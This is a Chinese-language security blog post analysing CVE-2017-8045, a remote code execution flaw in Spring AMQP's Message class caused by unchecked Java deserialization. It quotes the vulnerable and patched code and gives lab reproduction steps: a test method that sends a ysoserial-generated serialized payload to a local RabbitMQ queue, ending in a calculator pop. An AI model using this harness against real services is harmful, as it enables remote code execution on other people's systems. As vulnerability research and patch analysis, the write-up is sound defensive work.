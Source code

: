 ## Spring AMQP远程代码执行漏洞(CVE-2017-8045)分析

> 最近国外研究人员先后爆出Spring Data REST远程代码执行漏洞(CVE-2017-8046)和Spring AMQP远程代码执行漏洞(CVE-2017-8045)，CVE-2017-8046关注的人比较多，这里对CVE-2017-8045进行简单分析

### 漏洞原因

在Spring AMQP的Message类中，文件路径为spring-amqp/src/main/java/org/springframework/amqp/core/Message.java。getBodyContentAsString方法中将接收到的消息进行反序列化操作，从而导致任意代码执行。代码如下:

```
private String getBodyContentAsString() {
		if (this.body == null) {
			return null;
		}
		try {
			String contentType = (this.messageProperties != null) ? this.messageProperties.getContentType() : null;
			if (MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT.equals(contentType)) {
				return SerializationUtils.deserialize(this.body).toString();
			}
	......
	}
```
可以看到这里如果要触发漏洞，其中一个条件是要将请求的ContentType设置为application/x-java-serialized-object。

```
public static final String CONTENT_TYPE_SERIALIZED_OBJECT = "application/x-java-serialized-object";
```

### 代码分析
先分析存在漏洞的代码版本[spring-amqp-1.7.3.RELEASE](https://github.com/spring-projects/spring-amqp)，整个项目代码中共有两处提供反序列化方法的类，分别是SerializerMessageConverter类和SerializationUtils类。

其中SerializerMessageConverter继承了WhiteListDeserializingMessageConverter类并实现了反序列化方法deserialize，代码如下：

```
private Object deserialize(ByteArrayInputStream inputStream) throws IOException {
		try {
			ObjectInputStream objectInputStream = new ConfigurableObjectInputStream(inputStream,
					this.defaultDeserializerClassLoader) {

				@Override
				protected Class<?> resolveClass(ObjectStreamClass classDesc)
						throws IOException, ClassNotFoundException {
					Class<?> clazz = super.resolveClass(classDesc);
					checkWhiteList(clazz);
					return clazz;
				}

			};
			return objectInputStream.readObject();
		}
		catch (ClassNotFoundException ex) {
			throw new NestedIOException("Failed to deserialize object type", ex);
		}
	}
```

上面代码可以看到在deserialize函数中hook了objectInputStream的resolveClass方法并调用WhiteListDeserializingMessageConverter类的checkWhiteList方法对反序列化的类进行白名单检查，如果反序列化的类不在白名单就抛出异常。WhiteListDeserializingMessageConverter类中同时实现了setWhiteListPatterns方法来设置反序列化的白名单。但在1.7.3版本中并未见到任何地方使用该函数进行白名单设置，所以这个白名单控制还是依赖使用到spring-amqp的开发人员自行设置，如果开发人员不设置依旧可能存在反序列化漏洞。

在SerializationUtils类的反序列化方法中则未进行任何安全校验：

```
public static Object deserialize(byte[] bytes) {
		if (bytes == null) {
			return null;
		}
		try {
			return deserialize(new ObjectInputStream(new ByteArrayInputStream(bytes)));
		}
	......
	public static Object deserialize(ObjectInputStream stream) {
		if (stream == null) {
			return null;
		}
		try {
			return stream.readObject();
		}
		......
	}
```
而本次漏洞触发点getBodyContentAsString函数中调用的正是SerializationUtils的deserialize方法。

### 漏洞利用

Message类中toString方法调用了getBodyContentAsString函数，而该漏洞发现者介绍，该方法在代码中许多错误处理及日志记录中会调用到并给出了相关[demo](https://lgtm.com/blog/static/spring_amqp/Application.java)。该程序只允许接收JSON格式消息，此时使用ysoserial生成payload，并将 Content-Type设置为application/x-java-serialized-object，然后发送消息，因为demo程序只允许接收json格式消息，所以会触发异常，从而调用并将消息带入toString函数触发漏洞执行任意代码。

可以使用[spring-amqp-samples](https://github.com/spring-projects/spring-amqp-samples)中的demo，将Application中container方法中添加：

```
listenerAdapter.setMessageConverter(new Jackson2JsonMessageConverter());
```
在测试用例中修改发送消息格式：

```
public void test() throws Exception {

        InputStream in = new FileInputStream("testfile");
        ByteArrayOutputStream bytestream = new ByteArrayOutputStream();

        int ch;
        while((ch = in.read()) != -1) {
            bytestream.write(ch);
        }

        byte[] data = bytestream.toByteArray();
        Message message = MessageBuilder.withBody(data)
                .setContentType(MessageProperties.CONTENT_TYPE_SERIALIZED_OBJECT)
                .setMessageId("8045")
                .setHeader("foo", "test")
                .build();

        rabbitTemplate.convertAndSend(Application.queueName, message);
        receiver.getLatch().await(10000, TimeUnit.MILLISECONDS);
    }
```

安装RabbitMQ，mac下安装使用命令即可：
>brew install rabbitmq

运行RabbitMQ,并在浏览器打开localhost:15672看是否已运行，默认账号密码为guest。在resources目录创建application.properties文件，内容如下：

```
spring.rabbitmq.host=localhost
spring.rabbitmq.port=5672
spring.rabbitmq.username=guest
spring.rabbitmq.password=guest
spring.rabbitmq.virtualHost=
```
使用ysoserial生成payload文件,在pom依赖中添加commons-collections 3.1，接着调试运行即可进入到tosting函数，并弹出计算器：。
![详细图](http://xianzhi.aliyun.com/forum/attachment/thumb/Mon_1709/4_1250798584134789_633cbb47fad8add.png)
### 补丁分析

在修复版本以1.7.4为例，getBodyContentAsString中反序列化接口改为调用SerializerMessageConverter的fromMessage方法将AMQP消息转换为对象，并使用setWhiteListPatterns函数设置了允许被反序列化类的白名单，只允许反序列化java.util.*和java.lang.*开头的类：

```
static {
		SERIALIZER_MESSAGE_CONVERTER.setWhiteListPatterns(Arrays.asList("java.util.*", "java.lang.*"));
	}
```
详细见https://github.com/spring-projects/spring-amqp/commit/36e55998f6352ba3498be950ccab1d5f4d0ce655

### 参考

* https://lgtm.com/blog/spring_amqp_CVE-2017-8045
* http://www.cnvd.org.cn/webinfo/show/4247
* https://pivotal.io/security/cve-2017-8045
* https://jira.spring.io/browse/AMQP-766
